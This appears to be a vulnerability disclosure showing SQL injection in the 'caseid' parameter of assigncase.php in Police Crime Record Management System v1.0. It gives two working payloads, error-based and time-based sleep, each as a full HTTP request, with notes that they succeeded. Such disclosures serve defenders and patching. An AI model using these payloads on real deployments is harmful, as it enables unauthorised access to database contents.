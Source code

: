 # Police Crime Record Management System v1.0 has SQL injection

BUG_Author:Derek_Zhang

Website source address:https://www.sourcecodester.com/php/14894/police-crime-record-management-system.html

Vulnerability File: /ghpolice/officer/assigncase.php

GET parameter 'caseid' exists SQL injection vulnerability

Payload1: caseid=1' and (select 2 from(select count(*),concat(0x31323334,(select (elt(666=666,1))),0x61626364,floor(rand(0)*2))x from information_schema.plugins group by x)a)-- b

```
GET /ghpolice/officer/assigncase.php?caseid=1%27%20and%20(select%202%20from(select%20count(*),concat(0x31323334,(select%20(elt(666=666,1))),0x61626364,floor(rand(0)*2))x%20from%20information_schema.plugins%20group%20by%20x)a)--%20b HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=30di1kr94iks5mnf9ufm2uuh2f
Connection: close
```

Injection success based on errors

![image](https://github.com/fillorkill/bug_report/blob/main/picture/sql1.png)

Payload2:caseid=1' and (select 2 from (select(sleep(10)))a)-- b

```
GET /ghpolice/officer/assigncase.php?caseid=1%27%20and%20(select%202%20from%20(select(sleep(10)))a)--%20b HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=30di1kr94iks5mnf9ufm2uuh2f
Connection: close
```

Server response time is 10 seconds

![image](https://github.com/fillorkill/bug_report/blob/main/picture/sql2.png)

